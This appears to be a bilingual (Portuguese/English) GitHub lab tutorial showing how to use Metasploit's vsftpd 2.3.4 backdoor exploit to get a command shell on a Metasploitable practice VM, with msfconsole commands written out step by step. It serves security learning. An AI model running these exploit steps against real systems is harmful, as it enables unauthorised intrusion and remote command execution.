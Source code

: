 # Explorando a ferramenta 'metasploit' do Kali Linux | Vulnerabilidade FTP

## Ferramentas utilizadas:
> Máquina virtual Metasploitable Linux <br>
> Ferramenta Metasploit

###

[PT-BR]
1. Altere para o usuário root e digite o comando 'msfconsole' no terminal;
&nbsp;
![results](metasploit_ftp.png)
&nbsp;

2. Use `>search "vsftpd"` para buscar por exploits do "vsftpd";
3. Use `>info exploit/unix/ftp/vsftpd_234_backdoor` para obter mais informações sobre esse exploit;
4. Use `>use exploit/unix/ftp/vsftpd_234_backdoor` para utilizar esse exploit;
&nbsp;
![results](metasploit_ftp_2.png)
&nbsp;

5. Insira o comando `>show options` para mostrar a configuração do exploit;
6. Configure o IP da máquina Metasploitable em: `>set rhosts (endereço IP)`;
7. Insira o comando `>show options` para mostrar as novas configurações do exploit;
&nbsp;
![results](metasploit_ftp_3.png)
&nbsp;

9. Use `>set payload/cmd/unix/interact` para definir o payload para o exploit;
10. Use `>exploit` para executar o exploit.
&nbsp;
![results](metasploit_ftp_4.png)
&nbsp;

### Exemplo de resultados:

![results](metasploit_ftp_5.png)


# Exploring the Kali Linux 'metasploit' tool | FTP Vulnerability

## Tools used:
> Metasploitable Linux VM <br>
> Metasploit tool

###

[EN-US]
1. Switch to the root user and enter the 'msfconsole' command in the terminal;
2. Use <code>>search "vsftdpd"</code> to search for "vsftpd" exploit;
3. Use <code>>info exploit/unix/ftp/vsftpd_234_backdoor</code> for more info about this exploit;
4. Use <code>>use exploit/unix/ftp/vsftpd_234_backdoor</code> to use this exploit;
5. Insert <code>>show options</code> command to show the exploit configuration;
6. Set the metasploitable machine IP in: <code>>set rhosts (ipaddress)</code>;
7. Insert <code>>show options</code> command to show the new exploit configs;
8. Use <code>>set payload/cmd/unix/interact</code> to set the payload for the exploit;
9. Use <code>>exploit</code> to execute the exploit.

### Results example:




